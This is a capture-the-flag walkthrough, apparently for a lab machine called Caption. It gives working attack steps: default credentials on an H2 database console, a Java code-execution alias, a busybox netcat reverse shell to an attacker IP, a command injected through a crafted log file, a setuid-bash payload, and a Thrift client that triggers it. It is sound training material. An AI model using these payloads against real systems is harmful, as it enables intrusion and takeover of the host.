 Caption Walkthrugh
User Flag
Scan Nmap
8080/tcp openhttp-proxy
80/tcpopenhttp
22/tcpopenssh
OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
add 10.10.11.33 caption.htb to /etc/hosts
http://caption.htb:8080
root:root
http://caption.htb:8080/admin/dbviewer
reference: https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
rlwrap nc -nvlp 9999
run:
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ?
s.next() : ""; }$$;
CALL SHELLEXEC('busybox nc 10.10.14.15 9999 -e sh')
id : uid=1000(margo) gid=1000(margo) groups=1000(margo)
user flag: cat /home/margo/user.txtRoot flag
On attack machine run ssh-keyget -t rsa
chmod 600 id_rsa
copy contents from id_rsa.pub and write to the .ssh/authorized_keys on the remote shell
ssh into machine
ssh -L 9090:127.0.0.1:9090 -i id_rsa margo@10.10.11.33
Create this file on /tmp/malicious.log on the remote machine:
127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"
Create this file on /tmp/payload.sh on the remote machine:
chmod +s /bin/bash
install thrift client: https://thrift-tutorial.readthedocs.io/en/latest/installation.html
On host machine:
Create a file named log_service.thrift with the following content:
namespace go log_service
service LogService {
string ReadLogFile(1: string filePath)
}
run : thrift -r --gen py log_service.thrift
cd gen-py
create client.py :from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService # Import generated Thrift client code
def main():
# Set up a transport to the server
transport = TSocket.TSocket('localhost', 9090)
# Buffering for performance
transport = TTransport.TBufferedTransport(transport)
# Using a binary protocol
protocol = TBinaryProtocol.TBinaryProtocol(transport)
# Create a client to use the service
client = LogService.Client(protocol)
# Open the connection
transport.open()
try:
# Specify the log file path to process
log_file_path = "/tmp/malicious.log"
# Call the remote method ReadLogFile and get the result
response = client.ReadLogFile(log_file_path)
print("Server response:", response)
except Thrift.TException as tx:
print(f"Thrift exception: {tx}")
# Close the transport
transport.close()
if __name__ == '__main__':main()
run python3 client.py
on shell run
/bin/bash -p
cat /root/root.txt

